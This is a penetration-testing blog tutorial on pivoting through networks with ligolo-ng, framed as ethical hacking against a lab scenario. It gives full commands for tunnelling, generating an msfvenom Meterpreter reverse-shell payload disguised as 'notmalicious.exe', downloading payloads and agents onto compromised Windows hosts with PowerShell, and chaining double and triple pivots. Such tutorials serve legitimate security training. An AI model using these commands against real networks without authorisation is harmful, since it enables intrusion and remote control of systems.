+++
title = 'Ligolo-ng — Pivoting, Reverse Shells and File Transfers'
date = 2023-10-03T15:08:50+03:00
draft = false
+++

Let's talk about pivoting in the context of ethical hacking. In the simplest of terms, pivoting entails moving deeper into a network that we've compromised. It's a technique that allows us to reach parts of the network that would otherwise be inaccessible from our attacker machine. 

There are many ways and tools out there to accomplish this and you're probably already familiar with some of them such as SSH port forwarding and Chisel, but today we're going to talk about [ligolo-ng](https://github.com/nicocha30/ligolo-ng), developed by [Nicolas Chatelain](https://github.com/nicocha30).

I had been hearing about this tool for a months before I finally decided to try it out for myself and I finally understood all the hype around it.

On a high level, ligolo-ng creates a new tun interface on your attacker machine and works like a VPN. It's easy to set up, provides a stable connection, and the syntax is very intuitive.

I used multiple sources when learning how to use ligolo-ng and I've tried to summarise everything I've learned into this article.

So let's dive in and find out how it works for pivoting, catching reverse shells and transferring files. We'll also look into double and triple pivots.
### Setting Up

In order to begin, we need to either download the precompiled binaries or compile the files ourselves.

Let's keep it simple and download the relevant files from the [releases page](https://github.com/nicocha30/ligolo-ng/releases/).



We're going to need a proxy file which will be the one we use on our attacker machine (in my case and for the sake of this guide that's a Kali Linux VM) and agent files for both Linux and Windows so that we have them ready to go depending on what host we compromise.

Download the appropriate proxy file for your attacker machine and architecture and some agent files for Windows x64 and Linux x64.
#### Scenario

Let's say we've compromised a web server and we see that the server has two network interfaces, one that's public-facing and another that lets us access the internal network.



Of course, we would want to access the internal network if we prefer to be able to enumerate from our own machine.

So let's set up ligolo-ng.

Go into the folder where you saved and extracted the proxy file. We need to run the following commands:

```shell
# Adds a new tun interface to our machine.
sudo ip tuntap add user kali mode tun ligolo

# Enables the new interface.
sudo ip link set ligolo up
```

This assumes you're running as kali on your machine, otherwise just change the user to whichever user you're running as. 

We are now ready to run our proxy file. You're welcome to check the help menu and explore the options.

```shell

# With the -selfcert flag the tool dynamically generates self-signed certificates.

./proxy -selfcert

```

Once you run this, the tool will start listening at port 11601 on all interfaces and you will get access to the tool's command line.



Now we need to transfer the appropriate agent file to the host we've compromised using our preferred method of choice. In our scenario, that's a web server running Linux (don't forget to make the file executable after).

Now we can just run the following command to connect back to our attacking machine:

```shell
# The IP will be the IP of our Kali VM/attacking machine.
# The -ignore-cert ignores certificate validation so we don't have any issues with our self-signed certs.

./agent -connect 10.10.14.213:11601 -ignore-cert

```



It may take a second for the connection to be established and when it is, we will see that an agent has joined. You can type `help` to access the help menu and check out what options you have for yourself.

Now we can enter `session` in ligolo-ng's interface, this will list all our sessions and we can specify the one we want either by number or using the arrow keys.



In our scenario, we want to access the 172.16.5.0/24 network, so we need to open a new terminal and add the corresponding route to our ligolo-ng interface with the following command:

```shell
ip route add 172.16.5.0/24 dev ligolo
```

We can confirm that the route has been added by typing `ip route list`.

Going back to ligolo-ng we can now type `start` which will start a tunnel.


We can now access the network and do enumeration and scanning with Nmap for example, but in order to catch reverse shells, do file transfers and move further into the network we're going to have to add some listeners.
### Reverse Shells

Let's say from our web server we've compromised a Windows host sitting at 172.16.5.35 and we want to catch reverse shell from that host. Here's how that would go.



We can listen to ports on the _agent_ and _redirect_ connections to our attacking machine where we're running the proxy.

We can do this easily with the following command inside the ligolo-ng session:

```shell
# Creates a listener on the machine where we're running the agent at port 1234 and redirects the traffic to port 4444 on our machine.

listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
```



Now in order to catch a reverse shell, your payload needs to be directed to the IP and port of the machine where the listener is created. 

Here is a sample payload with msfvenom that showcases this:

```shell
# IP of the compromised web server and port of the listener we created.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.15 LPORT=1234 -f exe -o notmalicious.exe

```

Since that traffic is forwarded to port 4444 on our machine we can start up Metasploit and listen on that port in order to catch the connection from the shell.

But wait... How do we get our payload on the compromised host in the first place?

### File Transfers

In order to transfer files, I recommend adding another to listener in order to keep things separate. This is also good in case you have remote code execution and have already used the first listener for a PowerShell reverse shell for example.

```shell

# Listener on the compromised web server at port 1235 forwarding traffic to port 8000.
# You can use any port you like, in our example I'm using port 8000 as it's the default port for a python HTTP server.

listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000

```

You can use `listener_list` to see all the listeners that have been added.

Now you can start a python server in the folder where your payload is and pull the file onto the host. 

```PowerShell

Invoke-WebRequest -Uri "http://172.16.5.15:1235/notmalicious.exe" -OutFile notmalicious.exe

```



Now with the file transferred over you can run your payload and catch the shell.



### Double Pivot

Let's go deeper into pivoting and keep going with our scenario. Turns out the windows host we compromised also has two interfaces and we want to move deeper into the network.



We're going to use what we learned about file transfers in order to get the agent.exe file we downloaded earlier onto the host.

```powershell
Invoke-WebRequest -Uri "http://172.16.5.15:1235/agent.exe" -OutFile agent.exe
```

Next we're going to add a listener on port 11601 in the session we already have running and redirect it to port 11601 on our own machine.

This will allow us to use the agent on the newly compromised host in order to reach back to ligolo-ng and obtain a new session, this time on the Windows host that will let us reach further into the network.

```shell
listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
```

Then we can run the agent with the following command:

```shell
# We use the IP of the compromised web server using our newly added listener.
./agent.exe -connect 172.16.5.15:11601 -ignore-cert
```



Once again, ligolo-ng will tell us that an agent has joined. We can use the `session` command as before to switch to the new session and then `start` to begin a tunnel over that connection instead.

We'll get a prompt like this:

```
Tunnel already running, switch from <first agent> to <second agent>? Y/N
```

Once we type `Y`, the new tunnel will start.

We can add the route to the network we want to access as before.

```shell
ip route add 172.16.6.0/24 dev ligolo
```

Just like that, we're good to go.

### Triple Pivot

At this point, doing further pivots is a repeat of the steps we used for our second pivot. I'll go over it briefly only covering commands we'll run and continuing further with our scenario.



We add our listeners for forwarding traffic, file transfers, and getting back a connection to ligolo-ng, depending on what our further actions will be.

```shell
listener_add --addr 0.0.0.0:1236 --to 0.0.0.0:8001

listener_add --addr 0.0.0.0:1237 --to 0.0.0.0:8002

listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
```

We transfer the agent to the host from our python server (this time running at port 8001) using the IP address of our second pivot host.

```powershell
Invoke-WebRequest -Uri "http://172.16.6.35:1236/agent.exe" -OutFile agent.exe
```

We'll run the agent file to get a connection back to ligolo-ng.

```shell
./agent.exe -connect 172.16.6.35:11601 -ignore-cert
```

Just like that we have a third session going. 



We can switch to it and add the next route we need to access.

```
ip route add 172.16.10.0/24 dev ligolo
```

This is the end of our scenario and this is what the final result would look like with our three agents giving us access to three sessions that we can switch between seamlessly.



---

I hope this was informative and taught you enough to start comfortably using ligolo-ng. It's an incredible tool that makes pivoting trivial once you get used to it. 

Happy hacking!
